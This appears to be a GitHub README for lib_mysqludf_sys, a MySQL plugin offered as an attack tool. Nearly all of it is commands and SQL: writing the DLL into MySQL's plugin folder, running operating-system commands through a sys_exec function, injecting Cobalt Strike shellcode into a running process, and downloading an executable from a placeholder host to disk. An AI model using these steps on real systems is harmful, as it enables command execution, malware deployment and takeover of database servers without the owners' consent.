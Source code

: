 # lib_mysqludf_sys
lib_mysqludf_sys is a udf plugin of MySQL.

## Into Dumpfile

1.```python3 udf_Bin2Hex.py 1 Release\lib_mysqludf_sys_x64.dll "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\lib_mysqludf_sys_x64.dll" > lib_mysqludf_sys_x64.sql```

2.exec .sql file


## Sys_exec

1.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("chcp 65001 & ipconfig");drop function sys_exec; ```

2.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("whoami");drop function sys_exec; ```

## Inject

1.Generate Stage/Stageless RAW file for Cobalt Strike


2.Dumpfile in MySQL machine


3.Inject shellcode

```create function inject returns string soname "lib_mysqludf_sys_x64.dll"; select inject(hex(load_file("C:\\raw.bin")),"AppVNice.exe");drop function inject;```

## Download

```create function download returns string soname "lib_mysqludf_sys_x64.dll"; 
select download("http://xxxx/xxx.exe","C:\\11111.exe");drop function download;```

